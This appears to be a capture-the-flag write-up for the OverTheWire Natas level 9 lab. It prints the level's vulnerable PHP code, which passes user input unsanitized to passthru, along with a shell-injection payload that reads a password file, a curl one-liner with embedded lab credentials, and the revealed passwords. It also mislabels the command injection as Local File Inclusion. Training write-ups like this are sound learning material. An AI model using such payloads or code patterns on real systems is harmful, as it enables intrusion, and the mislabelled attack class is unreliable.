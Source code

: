 Natas Level 8 → Level 9
=======================

Username: natas9
URL:      http://natas9.natas.labs.overthewire.org


Solution
========

After we browsed to the URL with the credentials gained in level7-8, we get to a web site which lets us enter a value into a web form that is titled "Find words containing:".
The web site's source code looks like this:

```
Output:
<pre>
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    passthru("grep -i $key dictionary.txt");
}
?>
</pre>

<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```

This one's pretty obvious an [```Local File Inclusion (LFI) attack```](https://en.wikipedia.org/wiki/File_inclusion_vulnerability). 
Whatever string (```$key```) is entered into the web form (```needle```) gets injected into the command line ```grep -i $key dictionary.txt``` and is executed then.
Since there's no sanity check of the web user's input implemented, ```$key``` can be any arbitrary command. Therefore we can simply get the next level's password by entering the following string into the web form:

```
popel dictionary.txt; cat /etc/natas_webpass/natas9 #
``` 
Which leads to the URL ```http://natas9.natas.labs.overthewire.org/?needle=popel+dictionary.txt%3B+cat+%2Fetc%2Fnatas_webpass%2Fnatas9+%23&submit=Search```
and gets transmitted to the web server. The string ```$key``` is then substituted into the command line ```grep -i $key dictionary.txt``` and therefore results into the execution of the command line ```grep -i popel dictionary.txt; cat /etc/natas_webpass/natas9 #dictionary.txt``` on the web server. This generates and gives back the following web site:

```
Output:

nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu
```

That's it! =)


Note to myself
==============

Instead of using a GUI web browser like Firefox one can use cURL instead:

```
curl --data "needle=; cat /etc/natas_webpass/natas10 #" http://natas9:W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl@natas9.natas.labs.overthewire.org/
```
